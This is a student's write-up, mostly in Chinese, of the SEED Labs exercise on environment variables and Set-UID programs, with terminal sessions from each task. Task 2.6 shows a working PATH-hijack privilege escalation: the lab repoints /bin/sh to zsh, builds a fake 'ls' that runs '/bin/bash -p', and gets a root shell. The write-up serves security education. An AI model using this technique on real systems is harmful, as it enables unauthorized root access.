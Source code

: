 # SEED Labs  - Enviroment Variable and *Set-UID* Program Lab

## 1 Overview 

## 2 Lab Tasks

#### 2.1 Task1 Manipulating Enviroment Variables

+ 使用`printenv`或`env`访问环境变量

```sh
yuan@ubuntu:~/learningNotes/Lab/Cap2_env/lab$ printenv PWD
/home/yuan/learningNotes/Lab/Cap2_env/lab
yuan@ubuntu:~/learningNotes/Lab/Cap2_env/lab$ env | grep PWD
OLDPWD=/home/yuan
PWD=/home/yuan/learningNotes/Lab/Cap2_env/lab
```
+ 使用`export`和`unset`来添加或删除一个环境变量

#### 2.2 Task2 向子进程传递环境变量

编译并运行task2.c 第一次编译时将Line22注释掉，输出子进程的所有环境变量； 第二次编译时将Line19注释掉，输出父进程的环境变量。

用`diff`对比二者

```sh
yuan@ubuntu:~/learningNotes/Lab/Cap2_env/lab$ gcc -o a.out task2.c 
yuan@ubuntu:~/learningNotes/Lab/Cap2_env/lab$ ./a.out > child 
yuan@ubuntu:~/learningNotes/Lab/Cap2_env/lab$ gcc -o a.out task2.c 
yuan@ubuntu:~/learningNotes/Lab/Cap2_env/lab$ ./a.out > another 
yuan@ubuntu:~/learningNotes/Lab/Cap2_env/lab$ diff -s child another 
檔案 child 和 another 相同
```

发现二者没有差别。

	结论：使用fork()函数，父进程将所有环境变量传递给了子进程


### 2.3/4 Task3 用execve() system() 向子进程传递环境变量

编译并运行execve_env.c程序，向execve传递的第三个参数是NULL时，什麼都不显示

注释掉14行并取消注释15行，编译运行，此时传递的第三个参数是environ，程序会打印所有环境变量



编译并运行system_env.c程序打印所有环境变量


### 2.5 环境变量与Set-UID程序

编译task5.c


```sh
yuan@ubuntu:~/learningNotes/Computer_Security/Cap2_env/lab$ gcc -o foo.out task5.c 
yuan@ubuntu:~/learningNotes/Computer_Security/Cap2_env/lab$ sudo chown root foo.out 
yuan@ubuntu:~/learningNotes/Computer_Security/Cap2_env/lab$ sudo chmod 4755 foo.out 
yuan@ubuntu:~/learningNotes/Computer_Security/Cap2_env/lab$ export LD_LIBRARY_PATH=.
yuan@ubuntu:~/learningNotes/Computer_Security/Cap2_env/lab$ export ANY_NAME="anynameiwant"
yuan@ubuntu:~/learningNotes/Computer_Security/Cap2_env/lab$ env | grep LD_ 
LD_LIBRARY_PATH=.
yuan@ubuntu:~/learningNotes/Computer_Security/Cap2_env/lab$ env | grep ANY_
ANY_NAME=anynameiwant
yuan@ubuntu:~/learningNotes/Computer_Security/Cap2_env/lab$ ./foo.out | grep ANY_
ANY_NAME=anynameiwant
yuan@ubuntu:~/learningNotes/Computer_Security/Cap2_env/lab$ ./foo.out | grep LD_
yuan@ubuntu:~/learningNotes/Computer_Security/Cap2_env/lab$
```
可以看到Set-UID程序对部分环境变量的保护


### 2.6 PATH环境变量和Set-UID程序

*利用system()函数没有使用完整路径的漏洞，结合PATH环境变量轻松取得超级用户权限*

	实验开始时，用以下指令绕过bash的保护措施

`$ sudo ln -sf /bin/zsh /bin/sh`


task6.c代码：

```c
int main(int argc, char const *argv[])
{
	system("ls");
	return 0;
}
```


用来攻击task6的程序:
```c
int main(int argc, char const *argv[])
{
	system("/bin/bash -p");
	return 0;
}
```

攻击过程：
```sh
yuan@ubuntu:~/learningNotes/Computer_Security/Cap2_env/lab$ gcc -o vul_ls.out task6.c 
yuan@ubuntu:~/learningNotes/Computer_Security/Cap2_env/lab$ sudo chown root vul_ls.out 
yuan@ubuntu:~/learningNotes/Computer_Security/Cap2_env/lab$ sudo chmod 4755 vul_ls.out 
yuan@ubuntu:~/learningNotes/Computer_Security/Cap2_env/lab$ gcc -o ls attack_task6.c 
yuan@ubuntu:~/learningNotes/Computer_Security/Cap2_env/lab$ export PATH=.:$PATH 
yuan@ubuntu:~/learningNotes/Computer_Security/Cap2_env/lab$ ./vul_ls.out 
bash-4.4# id
uid=1000(yuan) gid=1000(yuan) euid=0(root) 组=1000(yuan),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),116(lpadmin),126(sambashare)

```





